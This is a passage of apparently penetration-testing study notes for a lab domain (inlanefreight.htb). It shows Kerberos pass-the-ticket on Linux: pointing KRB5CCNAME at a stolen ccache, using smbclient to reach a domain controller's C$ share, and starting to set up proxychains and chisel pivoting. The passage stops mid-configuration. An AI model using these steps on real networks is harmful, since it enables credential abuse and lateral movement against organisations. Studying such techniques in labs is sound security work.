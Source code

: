     export KRB5CCNAME=/root/krb5cc_647401106_I8I133
    # assign ccache file path to env var

    klist
    # now we can see newly imported ccache file

    smbclient //dc01/C$ -k -c ls -no-pass
    # if target user is part of Domain Admins group, for example
    # then we can access the Domain Controller
    ```
  
  * using Linux tools to attack Kerberos:

    ```sh
    # for domain-joined machine, we can set KRB5CCNAME env var to required ccache file

    # for a machine that is not a domain member, we need to ensure reachability between attacker and DC
    # we can proxy our traffic to a machine (MS01 in this example) which has reachability to DC
    # using proxy tools like chisel and proxychains

    cat /etc/hosts
    # add IPs of domain and machines to attack - for example
    # 172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
    # 172.16.1.5  ms01.inlanefreight.htb  ms01

    # modify proxychains config file to use socks5 and port 1080
    vim /etc/proxychains.conf
    # or /etc/proxychains4.conf
    # we can include this under [ProxyList] section
    # socks5 127.0.0.1 1080
